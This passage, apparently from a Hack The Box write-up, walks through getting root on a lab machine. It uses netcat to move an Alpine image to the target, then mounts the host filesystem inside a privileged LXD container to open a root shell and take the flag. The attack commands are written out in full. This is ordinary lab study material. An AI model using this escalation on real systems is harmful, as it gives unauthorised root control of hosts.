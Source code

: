 Next, we'll execute the following command on our box to start the transfer.

```bash
$ nc -w 3 10.10.10.194 5555 < alpine-v3.12-x86_64-20200701_1818.tar.gz
```

Now, we'll switch back to the machine and add the image to LXD with the following command. We'll also list the images to make sure it worked.

```bash
$ lxc image import alpine-v3.12-x86_64-20200701_1818.tar.gz --alias pe4me
$ lxc image list
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| pe4me | e75871098130 | no     | alpine v3.12 (20200701_18:18) | x86_64       | CONTAINER | 3.05MB | Jul 2, 2020 at 12:05am (UTC) |
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
```

Looks to be there. Finally let's run this series of commands that will prepare the container.

```bash
$ lxd init --auto
$ lxc init pe4me ignite -c security.privileged=true
$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start ignite
```

With everything prepared, we'll execute this final command to open a shell as root.

![](/assets/img/posts/htb/07-2020/pe-root.png)

Success! Let's navigate to where the image is mounted and grab our final flag!

![](/assets/img/posts/htb/07-2020/root-flag.png)
